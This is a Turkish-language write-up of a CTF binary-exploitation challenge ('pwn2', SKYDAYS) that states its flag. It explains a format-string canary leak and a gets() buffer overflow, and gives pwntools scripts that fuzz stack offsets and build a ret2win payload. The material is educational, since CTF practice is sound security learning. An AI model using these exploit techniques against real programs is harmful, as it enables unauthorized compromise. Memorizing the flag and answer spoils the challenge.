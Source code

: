 # pwn2 - PWN

flag: `SKYSEC{C0NGR4TS_Y0U_3SC4P3D_TH3_M4TR1X}`

# Writeup
# Giriş

Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF
yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu
değildir, başka çözümler olabilmektedir.

# Soru

Bize verilen dosyayı çalıştırdığımızda şöyle bir ekran karşımıza çıkmakta:

![0](assets/0.png)

Bizden iki kere girdi alıyor ve ilk girdimizi ekrana yazdırıyor.

# Çözüm

Dosyayı inceleyelim:

![1](assets/1.png)

![2](assets/2.png)

Dosyamız 64-bit ve Canary aktif.

![3](assets/3.png)

Dosyadaki vuln() fonksiyonumuza bakarsak burada iki adet zaafiyetle karşılaşıyoruz:
1-printf(buffer); kodu bizim bellekten değer okumamıza kapı açıyor.
2-gets(buffer); kodu buffer’ın üzerine istediğimiz değerleri yazmamızı sağlıyor.

![4](assets/4.png)

![5](assets/5.png)

Yukarıdaki iki fonksiyona baktığımızda ise şunları görüyoruz:
*flag* fonksiyonu anlaşılabildiği üzere flag’imizi içeriyor fakat daha öncesinde “What is the password?” diye bir çıktı alıyoruz. Yani bir tür şifreye ihtiyacımız var.
*notaflaglol* fonksiyonumuzun bize verdiği çıktıdan önce “What is this string for?” çıktısını alıyoruz. Bu fonksiyondan elde edeceğimiz değer bizim şifremiz olabilir.

Tüm bu analizin sonucunda çözüm yolumuzu oluşturabiliriz:
1-Canary aktif. Programı manipüle ederken canary’i korumalıyız.
2-Buffer overflow ile önce *notaflaglol* fonksiyonuna erişmeli ve şifreyi almalıyız.
3-Daha sonra yine buffer overflow ile *flag* fonksiyonuna erişip şifreyi girip bayrağı elde etmeliyiz.

Bunun için önce bellekten değerleri okuyup canary’nin değerini öğrenmeliyiz. Bunu şöyle bir script ile yapabiliriz:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./chal', checksec=False)

# Let's fuzz x values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass

```

Peki bunlardan hangisinin canary olduğunu nasıl bileceğiz? Canary için aradığımız değer “00’ ile bitmeli, “ff” veya “f7” ile başlamamalı. Script’i çalıştırdığımızda bu koşulları sağlayan ve değişmeyen değer bizim olası canary’miz olacak. Canary’i bulduktan sonra şu tarz bir script template’i ile istediğimiz bir fonksiyona erişebiliriz:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './chal'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 00  # Buraya BOF için offset'imizi yazıyoruz.

# Leak canary value (NUMBERX on stack)
io.sendlineafter(b'!', '%{}$p'.format('NUMBERX').encode())
io.recvline()  # Blank line
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

# Build payload (ret2win)
payload = flat([
    offset * b'A',  # BOF için offset/garbage value
    canary,  # Canary'miz
    00 * b'A',  # Garbage value (NOT!: buradaki değer 32bit/64bit mimarilerde farklılık gösterecektir)
    elf.symbols.hacked  # dönmek istediğimiz fonksiyon: önce notaflaglol sonra flag
])

# Send the payload
io.sendlineafter(b':P', payload)

# Get our flag/shell
io.interactive()

```

Bunları dosyamıza göre ayarladığımızda elde edeceğimiz çıktılar:
Şifremiz:

![6](assets/6.png)

Flag:

![7](assets/7.png)

---

Daha fazla benzer örnek için bakabilirsiniz: [https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94)
